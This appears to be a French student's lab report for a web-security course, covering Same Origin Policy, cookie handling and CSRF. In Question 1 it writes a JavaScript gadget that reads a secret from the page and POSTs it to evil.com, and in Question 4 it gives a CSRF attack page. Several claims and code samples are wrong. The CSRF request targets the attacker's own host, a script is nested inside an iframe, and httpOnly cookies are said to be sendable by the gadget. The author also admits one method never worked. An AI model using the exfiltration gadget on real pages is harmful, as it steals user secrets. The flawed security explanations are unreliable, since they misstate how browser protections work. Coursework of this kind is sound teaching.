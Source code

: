 **Question 1 : Look at the code of integrator.html and write code for evilGadget.js in such a way that evilGadget.js will send the secret to evil.com. Rewrite integrator.html so the same origin policy will protect the secret.**

```js
// evilGadget.js
const secret = document.getElementById("secret").innerText;  
  
const urlAttackerSever = "http://evil.com:8080"  
  
const request = {  
    mode:  'no-cors',  
    method: "POST",  
    headers: {  
        'Content-Type': 'application/json',  
    },  
    body : JSON.stringify({ secret: secret })  
};  
  
fetch(urlAttackerSever, request)
```

Pour mettre en place le SOP (Same Origin Policy), afin de protéger le secret, il faut mettre une balise iframe au lieu d'une balise script. Comme la balise iframes sont conçue pour charger une page html dans une autre page html. Nous allons devoir créer une page html sur le site **evil.com**, contenant une balise script ayant pour source **evilGadget.js**.

```html
<!-- page web html sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html">  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>
</iframe>  
</html>
```

Finalement, le site evil.com ne peut plus récupérer le secret.

**Question 2 : Look at the sop2.html. From subdomain2.html try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using document.domain?**

Il n'est pas possible de récupérer le secret, car la source l'iframe ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournit par le serveur subdomain.host.com. Nous pouvons réaliser cela, en modifiant la fichier subdomainpage.html de la manière suivante :

```html
<html>  
<head>  
<h1> This is an iframe of different origin \(subdomain\)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. En pratique, j'ai jamais réussi à le faire fonctionner.

**Question 3 : Write two different services from the same server that set a cookie.  
On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- Does the previous item work if the gadget is inside a frame?
- and if the gadget is inside a script and the cookie is initially set as httpOnly?
- and if the gadget is inside a script and the cookie is initially set as secure?  
**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of  
SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur evil.com qui réalise un requête sur un autre site, par exemple host.com

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <title>Title</title>  
</head>  
<body>  
<h1>Attaque CSRF on evil.com to host.com</h1>  
<script>  
    const url = "http://evil.com:8080/random_ressouce.html";  
    const request = {  
        mode:  'no-cors',  
        method: "GET",  
        headers: {  
            'Content-Type': 'application/json',  
        },  
    };  
  
    fetch(url, request);  
</script>  
</body>  
</html>
```

Les cookie de host.com sont envoyés au cours de la requête.
